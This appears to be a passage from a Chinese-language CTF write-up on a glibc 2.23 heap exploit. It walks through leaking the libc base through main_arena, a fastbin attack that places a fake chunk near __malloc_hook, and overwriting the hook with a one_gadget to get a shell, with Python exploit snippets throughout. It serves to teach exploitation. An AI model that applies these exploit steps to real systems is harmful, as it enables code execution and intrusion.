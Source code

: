 ```python
# 0x3c4b78?
# libc_base=（程序里的 main_arena+88）-0x3c4b78(0x3c4b0+88,一般 2.23_64 的偏移都是这个，不同 libc 版本会有不同)

# index=2?
# 由于我们刚刚把 chunk 2 的 fd 指针改为 chunk 4 的地址，所以第一次 malloc(0x10) 的时候是分配的原来 chunk 2 的块给 index 1，第二次 malloc(0x10) 的时候就会分配 chunk 4 的块给 index 2，也就是说 index 2 与 index 4 的内容都是 chunk 4


libc_base = u64(dump(2)[:8].strip().ljust(8, b"\x00")) - 0x3c4b78
```

### malloc_hook 的作用

- **malloc_hook** 是 libc 中的一个函数指针，位于 libc 的 data 段
- 当调用 `malloc` 时，如果 `malloc_hook` 不为空，则会执行 `malloc_hook` 指向的函数
- 通过修改 `malloc_hook`，可以劫持 `malloc` 的执行流程，从而实现 getshell

### fastbin attack 的基本原理

- **fastbin attack** 是一种堆漏洞利用技术，通过操控 fastbin 链表，将任意地址放入 fastbin 中，然后通过 `malloc` 分配该地址，从而实现任意地址写
- 具体步骤：
  1. 通过堆溢出或其他漏洞，修改某个 fastbin chunk 的 `fd` 指针，使其指向目标地址（如 `malloc_hook` 的地址）
  2. 通过 `malloc` 分配 chunk，将目标地址分配出来
  3. 向分配的内存中写入数据，从而修改目标地址的内容（如将 `malloc_hook` 修改为 `one_gadget` 的地址）

获得了 libc 地址，我们可以使用 fastbin attack 将一个 libc 上的地址放入 fastbin 链表中

然后 malloc 出来，这样就可已改写 libc 的内容

malloc_hook 是一个 libc 上的函数指针，调用 malloc 时如果该指针不为空则执行它指向的函数，可以通过写 malloc_hook 来 getshell

同样的，这里我们也要绕过 malloc 的安全检查，chunksize 必须与 fastbin_index 相对应

初看 __malloc_hook 附近没有合适的 chunksize，这里需要巧妙的偏移一下

![](https://pic1.imgdb.cn/item/67c1d70bd0e0a243d4083c39.png)

可以发现在 0x7f2a8a09eaed 处构造块可以绕过检测（因为 7f 满足 0x70 大小）

可以计算 0x7f2a8a09eaed 距离 libc 基址的偏移为 0x3c4aed

```python
alloc(0x60)

free(4)

payload = p64(libc_base+0x3c4aed)

fill(2, payload)
```

接着将 malloc_hook 改为 one_gadget，这样我们在 malloc 的时候就能够获取 shell 了

```python
alloc(0x60)
alloc(0x60)
 
payload = p8(0) * 3 + p64(0) * 2 + p64(libc_base + 0x4526a)

fill(6, payload)
 
alloc(255)
```
